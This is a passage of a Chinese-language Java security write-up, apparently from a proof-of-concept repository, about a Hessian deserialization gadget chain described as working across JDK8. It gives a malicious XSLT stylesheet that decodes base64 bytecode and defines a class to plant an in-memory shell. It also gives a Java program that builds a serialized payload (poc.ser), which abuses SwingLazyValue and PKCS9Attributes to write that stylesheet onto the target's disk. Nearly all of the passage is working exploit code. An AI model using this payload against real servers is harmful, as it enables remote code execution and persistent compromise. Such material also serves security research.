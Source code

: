 ```java

    }
}
```

该gadgets可在jdk8通杀，这是一条高可用的payload，用到了`com.sun.org.apache.xalan.internal.xslt.Process`的\_main方法去加载恶意的xslt文件，我们可以在xslt文件内部执行任意语句，并且不受限。

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils">
<xsl:template match="/">
<xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/>
<xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
<xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/>
<xsl:value-of select="$rce"/>
</xsl:template>
</xsl:stylesheet>
```

文件内容如上，加载恶意类，也就是内存马。那么为了加载xslt，我们还需要有一个payload去写入恶意的xslt，用到的gadgets还是一样的。

```java
package com.javasec.pocs.hessian;
import com.caucho.hessian.io.Hessian2Output;
import com.javasec.utils.SerializeUtils;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.FileOutputStream;

public class HessianProxyLVFileWrite {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        //PKCS9Attribute.EMAIL_ADDRESS_OID 是固定的，调试流程可以看到逻辑
        //去修改需要读取的文件，和写入的文件名，实例中是读取1.txt写入pwned.txt
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/1.xslt",SerializeUtils.getFileBytes("E:\\payload.xslt")}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}
```
